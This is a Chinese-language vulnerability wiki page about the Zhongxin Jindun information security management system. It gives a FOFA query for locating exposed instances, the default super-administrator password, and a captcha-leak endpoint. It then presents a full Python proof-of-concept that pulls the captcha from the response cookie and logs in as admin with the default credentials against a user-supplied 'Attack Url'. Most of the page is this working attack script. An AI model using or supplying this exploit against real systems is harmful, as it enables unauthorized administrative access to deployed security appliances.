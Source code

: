 <languages   />

<translate>

漏洞影響
--------

</translate>

    中新金盾信息安全管理系统

FOFA
----

    title="中新金盾信息安全管理系统"

<translate>

默認帳號密碼
------------

</translate>

    admin/zxsoft1234!@#$

<translate>

驗證碼
------

</translate>

<translate> 請求 </translate>

    ?q=common/getcode

<translate> 返回了驗證碼。 </translate>

POC
---

    import requests
    import sys
    import random
    import re
    import base64
    import time
    from requests.packages.urllib3.exceptions import InsecureRequestWarning

    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
        print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
        print('+  \033[34mVersion: 中新金盾信息安全管理系统 默认超级管理员密码漏洞                      \033[0m')
        print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
        print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url):
        vuln_url = target_url + "?q=common/getcode"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        }
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
            print("\033[36m[o] 正在获取验证码 {}?q=common/getcode ..... \033[0m".format(target_url))
            response_data = response.headers['Set-Cookie']
            check_code = re.findall(r'check_code=(.*?);', response_data)[0]
            PHPSESSID = re.findall(r'PHPSESSID=(.*?);', response_data)[0]
            print("\033[36m[o] 验证码:{}\n[o] PHPSESSID:{} \033[0m".format(check_code, PHPSESSID))
            POC_2(target_url, check_code, PHPSESSID)

        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)

    def POC_2(target_url, check_code, PHPSESSID):
        vuln_url = target_url + "?q=common/login"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
            "Cookie":"PHPSESSID={}; check_code={}".format(PHPSESSID, check_code),
            "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"
        }
        data = "name=admin&password=zxsoft1234!%40%23%24&checkcode={}&doLoginSubmit=1".format(check_code)
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
            if "1" in response.text and response.status_code == 200:
                print("\033[36m[o] 目标 {} 存在默认管理员弱口令 admin / zxsoft1234!@#$ \033[0m".format(target_url))
            else:
                print("\033[31m[x] 目标 {} 不存在默认管理员弱口令     \033[0m".format(target_url))
        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)


    if __name__ == '__main__':
        title()
        target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
        POC_1(target_url)

<translate>

參考
----

</translate> <https://mp.weixin.qq.com/s/DWuUlbtFU-MiGE3zw1w8Yg>